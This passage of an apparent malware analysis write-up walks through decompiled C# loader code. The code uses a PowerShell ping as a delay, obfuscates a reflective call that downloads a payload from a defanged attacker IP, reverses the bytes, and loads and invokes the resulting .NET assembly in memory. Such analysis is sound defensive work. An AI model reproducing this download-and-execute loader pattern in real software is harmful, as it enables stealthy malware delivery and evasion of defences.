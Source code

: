 The Read() function looks like it pieces together a PowerShell connection using a ProcessStartInfo object and executes it with Process.Start, waiting for the process to finish. Once the command gets build and run, it'll execute `powershell.exe Test-Connection 127.0.0.1`. The [Test-Connection](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/test-connection?view=powershell-7.2) cmdlet in PowerShell is similar to a `ping` command. When I see this activity in the wild it's usually either a connectivity test or a method to impose a time delay. Once this time delay finishes, the method returns and moves to BufferLength().

```cs
private static long BufferLength()
{
    _buffer = ((Task<byte[]>)typeof(HttpClient).GetMethod("SrdsGetBySrdsteArrSrdsayAsySrdsnc".Replace("Srds", ""), new Type[1]
    {
        typeof(string)
    })!.Invoke(new HttpClient(), new object[1]
    {
        "hxxp://185.222.58[.]56/try.png"
    })).Result;
    return _buffer.Length;
}
```

So the BufferLength() function downloads content into a byte array in a rather verbose way. It searches the [HttpClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.http.httpclient?view=net-6.0) .NET class for the method [GetByteArrayAsync()](https://docs.microsoft.com/en-us/dotnet/api/system.net.http.httpclient.getbytearrayasync?view=net-6.0) and then invokes it with a URL argument. The result gets saved into `_buffer`, a byte array variable, and the function returns the length of this variable. The return value gets used in a `BufferLength() > 0` check to make sure some content downloaded before proceeding. Now let's look at the Mix() function.

```cs
private static long Mix()
{
    Array.Reverse((Array)_buffer, 0, _buffer.Length);
    _assembly = Assembly.Load(_buffer);
    return _assembly.HostContext;
}
```

The Mix() function takes the `_buffer` variable, reverses its contents, and reflectively loads the reversed contents into a `_assembly` variable. At this point we can be pretty certain that `_buffer` contains a .NET assembly inside its byte array and that assembly is loaded into memory. From here, we can assume there will be some kind of Invoke method occurring in ACMP().

```cs
private static long ACMP()
{
    Type[] exportedTypes = _assembly.GetExportedTypes();
    foreach (Type type in exportedTypes)
    {
        MethodInfo[] methods = type.GetMethods();
        foreach (MethodInfo methodInfo in methods)
        {
            if (methodInfo.Name == "Qddywbxavgtbjaukcldrpmcm")
            {
                return (long)methodInfo.Invoke(null, null);
            }
        }
    }
    return 0L;
}
```
